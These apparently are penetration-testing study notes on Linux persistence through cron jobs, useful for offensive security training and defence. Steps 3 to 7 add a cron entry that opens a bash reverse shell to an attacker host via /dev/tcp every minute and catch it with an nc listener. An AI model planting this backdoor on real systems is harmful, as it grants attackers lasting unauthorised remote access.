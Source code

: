 
### Persistence Via Cron Jobs

+ Linux implements task scheduling through a utility called Cron. Cron is a time-based service that runs applications, scripts and other commands repeatedly on a specified schedule.

+ An application, or script that has been configured to be run repeatedly with Cron is known as a Cron job.

+ We can use cron jobs to execute a command or script at a fixed interval to ensure we have persistent access to the target system.

### Anatomy of Cron Job

![[Pasted image 20231117020219.png]]

### How to perform ?

1. Gain initial access. In our case, we'll be using SSH to get access.

2. We can enumerate the various cron jobs using `cat /etc/cron*`. This will display the Cron tab file.

3. We can add a Cron job using the following command
```
echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/<lhost>/<lport> 0>&1'" > cron
```

4. We check the content of the `cron` file which we saved. 

5. We can now add this Cron job using `crontab -i cron`.

6. List the Cron jobs added using `crontab -l`. This will run the Cron job with the permissions of the current user. 

7. Now we can setup a `nc` listener to get a connection from the Cron job whenever it runs. The shell we'll obtain will be an interactive shell. 
